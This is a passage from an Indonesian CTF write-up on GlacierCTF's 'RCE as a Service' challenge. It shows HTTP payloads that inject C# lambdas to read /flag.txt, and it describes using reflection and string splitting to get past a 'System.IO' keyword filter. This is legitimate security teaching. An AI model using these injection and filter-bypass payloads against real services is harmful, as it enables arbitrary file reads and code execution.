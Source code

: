 untuk membaca flag 

Full payload: 

```http
POST /rce HTTP/2
Host: rce-as-a-service-1.ctf.glacierctf.com
Accept: */*
Content-Type: application/json
Content-Length: 106

{
    "Data": ["."],
    "Query": "(data) => data.Select((d) => System.IO.File.ReadAllText(\"/flag.txt\"))"
}
```

glacierctf{ARE_YOU_AN_3DG3L9RD?}

## RCE as Service (Stage 2)

Masih dengan source yang sama, namun kali ini diberikan waf dimana kita tidak boleh memasukkan query dengan kata "System.IO"
    
Disini langsung terlintas ide untuk menggunakan Reflection untuk membypass hal tersebut, karena pada dasarnya Reflection kita dapat melakukan mulai dari get class, get method sampai invoke method cukup dengan string untuk mencari class & method tersebut

Jadi disini intinya, kita bisa memasukkan hal seperti

```
"System." + "IO" + ".File"
```

Pada payload untuk membypass waf string "System.IO"
Untuk mendapatkan Type dari class System.IO, kita harus mencari terlebih dahulu AssemblyQualifiedName untuk class tersebut, oleh karena itu saya langsung mencoba mencari AssemblyQualifiedName pada RCE as Service stage 1 karena asumsi saya menggunakan versi .NET yang sama.

Berikut payload untuk mendapatkan AssemblyQualifiedName pada stage 1:

```http
POST /rce HTTP/2
Host: rce-as-a-service-1.ctf.glacierctf.com
Accept: */*
Content-Type: application/json
Content-Length: 109

{
    "Data": ["."],
    "Query": "(data) => data.Select((d) => typeof(System.IO.File).AssemblyQualifiedName)"
}
```

response:

```http
HTTP/2 200 OK
Date: Sat, 26 Nov 2022 08:52:41 GMT
Content-Type: application/json; charset=utf-8
Strict-Transport-Security: max-age=15724800; includeSubDomains

["System.IO.File, System.Private.CoreLib, Version=6.0.0.0, Culture=neutral, PublicKeyToken=7cec85d7bea7798e"]
```
